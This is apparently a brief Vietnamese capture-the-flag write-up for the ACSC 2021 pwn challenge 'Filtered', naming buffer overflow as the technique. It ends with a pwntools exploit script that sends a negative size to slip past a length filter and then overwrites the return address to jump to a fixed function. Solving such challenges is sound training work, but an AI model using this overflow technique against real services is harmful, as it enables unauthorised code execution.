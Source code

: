 # Filtered
### Thử thách:
- Filter invalid sizes to make it secure!
- Backup: nc 167.99.78.201 9001
nc filtered.chal.acsc.asia 9001
- [Source](https://github.com/antoinenguyen-09/All_CTF_write-ups/tree/master/Asian%20Cyber%20Security%20Challenge%20(ACSC)/2021/pwn/source)
### Kiến thức nền:
- Buffer Overflow.
### Giải quyết vấn đề:

3) Exploit:

```python
from pwn import *
r = remote("167.99.78.201" , 9001)
r.sendline(b"-1")
r.sendline(0x110*b"1" + p64(0xaaaaaaaa)+ p64(0x4011D6))
r.interactive()
```
